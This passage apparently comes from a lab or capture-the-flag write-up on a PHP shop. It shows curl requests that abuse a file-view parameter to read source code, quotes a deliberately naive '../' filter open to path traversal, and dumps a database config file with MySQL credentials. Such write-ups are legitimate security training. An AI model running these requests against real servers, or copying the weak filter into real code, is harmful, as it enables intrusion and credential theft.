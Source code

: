 ```bash
curl -s "http://172.19.4.10/view.php?file=/var/www/html/item.php" | head -50
```

**Key Code Snippet:**
```php
<?php
// Item detail view keeps the intentionally naive filter: only "../" is stripped.
// Path traversal is still possible with crafted payloads (e.g., "....//")

require_once __DIR__ . '/db.php';
$catalog = require __DIR__ . '/catalog.php';

$id = isset($_GET['id']) ? preg_replace('/[^a-z\-]/', '', $_GET['id']) : 'blue-hoodie';
$product = $catalog[$id] ?? reset($catalog);

$defaultSpec = $product['specPath'] ?? ('pages/' . $product['id']);
$spec = isset($_GET['spec']) ? $_GET['spec'] : $defaultSpec;

// Naive WAF: only remove literal ../
$sanitized = str_replace('../', '', $spec);
...
```

---

## MySQL Credential Discovery

### Reading Database Configuration File

```bash
curl -s "http://172.19.4.10/view.php?file=/var/www/html/db.php"
```

**Output:**
```php
<?php
// Lightweight DB helper for the lab: centralises pma_admin credentials
// and exposes a single connection accessor with lazy initialisation.

function db_get_connection(): ?mysqli
{
    static $conn = null;
    if ($conn instanceof mysqli) {
        return $conn;
    }

    $conn = @mysqli_connect('127.0.0.1', 'pma_admin', 'SecurinetsPMA!2025', 'shop');
    if (!$conn) {
        error_log('[shop] mysqli_connect failed: ' . mysqli_connect_error());
        $conn = null;
        return null;
    }

    if (!@$conn->set_charset('utf8mb4')) {
        error_log('[shop] mysqli set_charset failed: ' . $conn->error);
    }

    return $conn;
}
```
